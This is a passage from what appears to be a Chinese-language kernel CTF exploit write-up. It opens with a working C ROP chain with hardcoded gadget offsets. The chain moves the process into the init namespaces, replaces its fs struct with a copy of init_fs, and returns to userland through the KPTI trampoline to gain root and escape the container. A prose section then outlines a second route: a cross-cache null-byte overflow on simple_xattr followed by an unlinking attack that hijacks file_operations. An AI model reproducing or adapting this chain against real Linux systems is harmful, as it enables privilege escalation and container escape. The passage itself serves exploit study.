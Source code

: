```c
    *rop ++= kernel_base + 0xffffffff81001618; // pop rdi ; ret
    *rop ++= 1;                                // pid
    *rop ++= kernel_base + 0xffffffff810e4fc0; // find_task_by_vpid

    // switch_task_namespaces(task, init_nsproxy)    [5]
    *rop ++= kernel_base + 0xffffffff8101f5fc; // pop rcx ; ret
    *rop ++= 0;                                // 0
    *rop ++= kernel_base + 0xffffffff81a05e4b; // mov rdi, rax ; rep movsq qword ptr [rdi], qword ptr [rsi] ; ret
    *rop ++= kernel_base + 0xffffffff8100051c; // pop rsi ; ret
    *rop ++= kernel_base + 0xffffffff8245a720; // init_nsproxy;
    *rop ++= kernel_base + 0xffffffff810ea4e0; // switch_task_namespaces

    // new_fs = copy_fs_struct(init_fs)    [6]
    *rop ++= kernel_base + 0xffffffff81001618; // pop rdi ; ret
    *rop ++= kernel_base + 0xffffffff82589740; // init_fs;
    *rop ++= kernel_base + 0xffffffff812e7350; // copy_fs_struct;
    *rop ++= kernel_base + 0xffffffff810e6cb7; // push rax ; pop rbx ; ret

    // current = find_task_by_vpid(getpid())    [7]
    *rop ++= kernel_base + 0xffffffff81001618; // pop rdi ; ret
    *rop ++= getpid();                         // pid
    *rop ++= kernel_base + 0xffffffff810e4fc0; // find_task_by_vpid

    // current->fs = new_fs    [8]
    *rop ++= kernel_base + 0xffffffff8101f5fc; // pop rcx ; ret
    *rop ++= 0x6e0;                            // current->fs
    *rop ++= kernel_base + 0xffffffff8102396f; // add rax, rcx ; ret
    *rop ++= kernel_base + 0xffffffff817e1d6d; // mov qword ptr [rax], rbx ; pop rbx ; ret
    *rop ++= 0;                                // rbx

    // kpti trampoline    [9]
    *rop ++= kernel_base + 0xffffffff81c00ef0 + 22; // swapgs_restore_regs_and_return_to_usermode + 22
    *rop ++= 0;
    *rop ++= 0;
    *rop ++= (uint64_t)&win;
    *rop ++= usr_cs;
    *rop ++= usr_rflags;
    *rop ++= (uint64_t)(stack + 0x5000);
    *rop ++= usr_ss;
```

**注意**：在创建 poll 线程之前先调用 `assign_to_core()` 将进程绑定到另一个核，这样是为了避免在 core 0 上创建线程带来的 slab 分配噪声。线程创建完成后，要在执行 `poll()` 之前调用 `assign_thread_to_core()` 将进程再次绑定为 core 0。

**其他利用方法**：比赛中只有一组做出来，[Kylebot](https://kylebot.net/) 用到了 [Extended security attributes](https://www.man7.org/linux/man-pages/man7/xattr.7.html) （在容器中不需要特殊权限），他将 kmalloc-4k  off-by-one 转化成 Cross-Cache Null Byte Overflow，篡改 kmalloc-192 中的[simple_xattr](https://elixir.bootlin.com/linux/v5.10.127/source/include/linux/xattr.h#L77)结构，也即 `simple_xattr->list.next` 指针。由于cache是非对齐的，所以篡改 `simple_xattr->list.next` 指向另一个 `simple_xattr` 的中间，这里伪造了一个 fake header 以构造 OOB read，泄露信息。 最后，他利用 [unlinking attack with simple_xattr](https://www.starlabs.sg/blog/2022/06-io_uring-new-code-new-bugs-and-a-new-exploit-technique/#unlinking-attack) 技术来篡改 [file](https://elixir.bootlin.com/linux/v5.10.127/source/include/linux/fs.h#L916) 结构的 [file_operations](https://elixir.bootlin.com/linux/v5.10.127/source/include/linux/fs.h#L1822) 指针，指向可控的堆地址，劫持控制流并提权。
